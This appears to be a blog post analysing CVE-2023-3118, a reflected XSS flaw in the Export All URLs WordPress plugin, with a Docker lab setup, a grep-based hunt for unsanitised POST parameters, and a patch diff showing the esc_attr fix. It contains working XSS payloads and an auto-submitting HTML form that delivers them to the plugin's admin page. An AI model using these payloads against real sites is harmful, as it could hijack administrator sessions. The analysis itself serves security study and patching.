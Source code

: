 ```yaml
---
title: "CVE-2023-3118 - Export All URLs < 4.6 - Reflected XSS"
draft: false
tags: ["cve_analysis"]
categories: ["Web Security"]
weight: 4
---
```

![Description of Image](/images/cve-2023-3118/cve-poster.png)

## On this page

- [Description](#description)
- [Lab Setup](#lab-setup)
- [BlackBox Testing](#blackbox-testing)
- [Patch Diffing](#patch-diffing)
- [Resources](#resources)

### Description
The Export All URLs WordPress plugin before 4.6 does not sanitise and escape a parameter before outputting them back in the page, leading to a Reflected Cross-Site Scripting which could be used against high privilege users such as admin

![Description of Image](/images/cve-2023-3118/cve-2023-3118-security.png)

### Lab-Setup
```sh
mkdir cve-2023-3118
```
create `docker-compose.yml` file
```php
version: '3.8'

services:
  db:
    image: mysql:5.7
    volumes:
      - db_data:/var/lib/mysql
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: MySQLP@ssw0rd
      MYSQL_DATABASE: wordpress
      MYSQL_USER: wordpress
      MYSQL_PASSWORD: wordpress

  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    ports:
      - "8000:80"
    restart: always
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: wordpress
      WORDPRESS_DB_PASSWORD: wordpress
      WORDPRESS_DB_NAME: wordpress
    volumes:
      - wordpress_data:/var/www/html

volumes:
  db_data:
  wordpress_data:
  ```
  then run `docker-compose up` to run the image
![Description of Image](/images/cve-2023-3118/docker-compose-up.png)

When you go to <http://localhost:8000/> you will see the wordpress installation page
![Image](/images/cve-2023-23489/wordpress-install.png)
![Image](/images/cve-2023-23489/wordpress-install2.png)
<br>
![Image](/images/cve-2023-23489/wordpress-plugins.png)
<br>
![Image](/images/cve-2023-23489/upload-plugins.png)
I searched for `easy digital downloads`
![Image](/images/cve-2023-3118/export-all-urls-search.png)
<br>
![Image](/images/cve-2023-3118/wordpress-export-all-urls-search.png)
Go to Advanced View Section
![Image](/images/cve-2023-3118/AdvancedView-export-all-urls-search.png)

The description of the vulnerability states that versions below 4.6 are vulnerable. We will download both 4.5 and 4.6 to analyze the patch for the vulnerability.
![Image](/images/cve-2023-3118/export-all-urls-Development-Version.png)
![Image](/images/cve-2023-3118/ls-files.png)

Let's upload the vulnerable plugin to WordPress. Press the "Browse" button and choose export-all-urls.4.5.zip
 ![Image](/images/cve-2023-23489/upload2.png)
Then press on the `Install Now` Button
 ![Image](/images/cve-2023-23489/install-plugin1.png)
 Then press on the `Activate Plugin` Button
 ![Image](/images/cve-2023-3118/activate-plugin.png)
The plugin was installed successfully.
![Image](/images/cve-2023-3118/plugin-ins.png)

### BlackBox Testing
I will test the vulnerable version as we don't know where the vulnerability is located
![Image](/images/cve-2023-3118/ls-files2.png)
First, I will search for all `GET` methods in PHP files to see if any can be exploited.
```php
grep --color=always -r '$_GET' --include="*.php" .
```
The line that appears in the output is used in WordPress security to verify a nonce (a number used once) and prevent CSRF (Cross-Site Request Forgery) attacks, so it is not useful for exploitation.
![Image](/images/cve-2023-3118/grep-get.png)

Let's now search for all `POST` Methods
```php
grep --color=always -r '$_POST' --include="*.php" .
```
As you see from the output the `sanitize_text_field`  & `sanitize_file_name` functions are used in many lines. [sanitize_text_field()](https://developer.wordpress.org/reference/functions/sanitize_text_field/) is a WordPress built-in function that sanitize user input. [sanitize_file_name](https://developer.wordpress.org/reference/functions/sanitize_file_name/) is a WordPress built-in function that sanitizes a filename, replacing whitespace with dashes.

![Image](/images/cve-2023-3118/grep-post1.png)
So the `POST` Methods that are inside `sanitize_text_field` & `sanitize_file_name` functions is useless to us.
<br>
Let's remove the lines that contain this function.
```php
grep --color=always -r '$_POST' --include="*.php" . | grep -v 'sanitize_text_field'
```
There are two interesting lines that accept user input and print it as it is without any sanitization.
![Image](/images/cve-2023-3118/xss1.png)
```php
<?php echo isset($_POST['starting-point']) ===> Print starting-point value
<?php echo isset($_POST['ending-point'])   ===> Print ending-point value
```
When user input is submitted as is, the first vulnerability that comes to mind is [XSS](https://owasp.org/www-community/attacks/xss/)
<br>
Let's see if we can exploit this
I will go to the plugin location from `Tools`
![Image](/images/cve-2023-3118/plugin-installed.png)
Then press on `Show Filter Options` and `Show Advanced Options` to see all the available inputs
![Image](/images/cve-2023-3118/plugin-page1.png)
I want to find the location of POST Parameters `starting-point` & `ending-point` at this page
<br>
`Right Click - View Page Source` ( CTRL + U )
<br>
And search for keyword `starting-point`. You will find it's under `Number of Posts` keyword
![Image](/images/cve-2023-3118/search-starting-point.png)

To confirm that, press `F12` to inspect the page. If you click on the box near the word `From`, you will find it corresponds to the `starting-point` POST parameter, and the box near `To` corresponds to the `ending-point` POST parameter.
![Image](/images/cve-2023-3118/starting-ending-point-locations.png)
Let's enter any values and then press `Export Now` Button
![Image](/images/cve-2023-3118/endpoint-locations2.png)
I intercepted the request with BurpSuite
![Image](/images/cve-2023-3118/burpintercept1.png)

Let's see how we can exploit this vulnerability. From page source this is where the `starting-point` & `ending-point` values are located

 - <span style="color: red;">From: <input type=&quot;number&quot; name=&quot;starting-point&quot; placeholder=&quot;0&quot; value="</span><span style="color: blue;">{starting-point-User-Input}</span><span style="color: red;">&quot;&gt;</span>

-  <span style="color: red;">To: <input type=&quot;number&quot; name=&quot;ending-point&quot; placeholder=&quot;500&quot; value="</span><span style="color: blue;">{ending-point-User-Input}</span><span style="color: red;">&quot;&gt;</span>
So we need to <span style="color: green;">close the tags</span> and put our <span style="color: blue;">payload</span>.
<br>
Our First payload with the closed tags will be like that 
<br>
<span style="color: red;">From: <input type=&quot;number&quot; name=&quot;starting-point&quot; placeholder=&quot;0&quot; value="</span><span style="color: green;">&quot;></span><span style="color: blue;">&lt;script&gt;alert(/XSS-starting-point/)&lt;/script&gt;</span><span style="color: green;">&lt;&quot;</span><span style="color: red;">&quot;&gt;</span>
<br>
Our Second payload with the closed tags will be like that 
<br>
<span style="color: red;">To: <input type=&quot;number&quot; name=&quot;ending-point&quot; placeholder=&quot;500&quot; value="</span><span style="color: green;">&quot;></span><span style="color: blue;">&lt;script&gt;alert(/XSS-ending-point/)&lt;/script&gt;</span><span style="color: green;">&lt;&quot;</span><span style="color: red;">&quot;&gt;</span>
<br>
Let's test this by sending our intercepted request in BurpSuite to the Repeater tab. 
![Image](/images/cve-2023-3118/request-repeater1.png)
Then Right Click and choose `Show response in browser`
![Image](/images/cve-2023-3118/request-repeater2.png)
Copy the given url and submit it in the browser. As you can see, the XSS is triggered
![Image](/images/cve-2023-3118/xss1-1.png)

![Image](/images/cve-2023-3118/xss2.png)

We can automate this process by putting this HTML code in any page
```php
<body onload="document.forms[0].submit()">
    <form action="http://localhost:8000/wp-admin/tools.php?page=extract-all-urls-settings" method="POST">
        <input type="hidden" name="starting-point" value='"><script>alert(/XSS-starting-point/)</script>' />
        <input type="hidden" name="ending-point" value='"><script>alert(/XSS-ending-point/)</script>' />
        <input type="submit" value="submit">
    </form>
</body>
```
Go to Pages - Add New Page
![Image](/images/cve-2023-3118/new-page1.png)
Press on the ➕ Sign and type html in the search box and choose `Custom HTML` 
![Image](/images/cve-2023-3118/new-page2.png)
Then put our html code and press `Publish`
![Image](/images/cve-2023-3118/publish-page1.png)
Go to Pages and view the page where we placed our payload.
![Image](/images/cve-2023-3118/pages-view1.png)
As you see the XSS is triggered to anyone who visits this page 
![Image](/images/cve-2023-3118/xss-view-page1.png)

![Image](/images/cve-2023-3118/xss-view-page2.png)

### Patch Diffing
Now, Let’s take a look at the patch that used to prevent the vulnerability, We can see the patch information on wordpress from [here](https://plugins.trac.wordpress.org/changeset?old_path=%2Fexport-all-urls%2Ftags%2F4.6&old=2990491&new_path=%2Fexport-all-urls%2Ftags%2F4.5&new=2926489&sfp_email=&sfph_mail=). As we can see, the vulnerable `POST` methods have been placed inside `esc_attr`, which is used for escaping HTML attributes.
![Image](/images/cve-2023-3118/patch-diff1.png)

### Resources
https://nvd.nist.gov/vuln/detail/CVE-2023-3118
https://wpscan.com/vulnerability/8a9efc8d-561a-42c6-8e61-ae5c3be581ea/